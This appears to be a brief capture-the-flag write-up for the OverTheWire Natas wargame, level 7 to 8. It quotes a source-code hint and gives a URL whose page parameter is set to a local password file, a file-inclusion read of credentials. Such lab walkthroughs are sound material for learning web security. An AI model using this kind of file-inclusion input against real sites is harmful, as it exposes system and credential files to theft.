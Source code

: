 # Level 7 -> Level 8  

Check source code

```
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

